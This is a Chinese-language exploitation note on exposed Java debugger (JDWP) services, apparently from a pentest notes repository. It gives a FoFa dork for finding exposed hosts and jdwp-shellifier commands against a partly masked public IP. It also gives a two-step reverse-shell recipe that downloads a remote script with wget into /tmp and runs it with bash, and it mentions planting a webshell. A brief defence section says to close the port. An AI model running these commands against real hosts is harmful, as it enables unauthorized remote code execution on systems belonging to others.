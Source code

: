 > Created：2021/10/17 17:54

### 漏洞简介
JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 漏洞复现

FoFa Dork: 

> banner="JDWP-Handshake"


![image](https://user-images.githubusercontent.com/55024146/161269239-6315e359-6e6e-475c-93ca-b15348ea4748.png)


```
python2 .\jdwp-shellifier.py -t 62.x.x.x -p 8000 --cmd "ping xxxxx.dnslog.cn -c2"
```

![image](https://user-images.githubusercontent.com/55024146/161269453-16716b2d-b843-4d87-98e5-bf8d324d11fc.png)

此时，找到相应WEB网站访问

![image](https://user-images.githubusercontent.com/55024146/161269588-3484b430-177c-4cb2-b367-abe3714c08e8.png)

![image](https://user-images.githubusercontent.com/55024146/161269685-238b7aaa-879a-40cd-ba43-e75b807121d4.png)

触发

![image](https://user-images.githubusercontent.com/55024146/161269779-ee51ae56-756d-4493-9c63-21d9d98b3356.png)

测试截图

![image](https://user-images.githubusercontent.com/55024146/161269896-7a791529-aa51-4e57-9f72-27fc00edce47.png)

### 漏洞利用

- 反弹shell
  - jdwp-shellifier.py -t 目标IP -p 端口 --cmd "wget http://x.x.x.x/x.txt -O /tmp/x.sh"
  - jdwp-shellifier.py -t 目标IP -p 端口 --cmd "bash /tmp/x.sh"

- 写入webshell

### 漏洞防御

- 关闭JDWP端口，或者JDWP端口不对公网开放
  - 所以内网渗透时可以注意一下 +_+
- 关闭Java的debug模式（开启该模式对服务器性能有影响）


参考资料
- https://github.com/IOActive/jdwp-shellifier
